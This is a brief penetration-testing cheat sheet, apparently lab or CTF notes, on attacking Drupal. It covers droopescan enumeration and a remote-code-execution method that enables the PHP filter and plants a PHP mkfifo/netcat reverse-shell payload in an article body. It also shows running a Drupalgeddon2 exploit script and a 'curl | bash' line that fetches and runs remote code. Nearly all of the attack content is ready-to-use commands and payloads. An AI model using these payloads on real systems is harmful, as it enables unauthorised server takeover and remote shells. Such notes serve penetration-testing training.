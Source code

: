 # Drupal

## Drupal

### Drupal Enumeration

We can use droopescan:

```bash
droopescan scan drupal -u http://10.10.10.102
```

### Drupal RCE

First: Modules -> Enable PHP filter&#x20;

Second: Add content -> Article

Then listen in a port of your choosing :

```
nc -lvnp 443
```

Afterward in the Drupal Article **Body** add this payload:

```bash
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/tmp/f"); ?>
```

Next, in the **Text Format**, we select **PHP code.**

Finally, we click on the **Preview** button.

## Drupal Exploits

### Druppalgeddon

```
ruby druppalgeddon2.rb 10.10.10.233
> curl -s 10.10.14.20 | bash
```
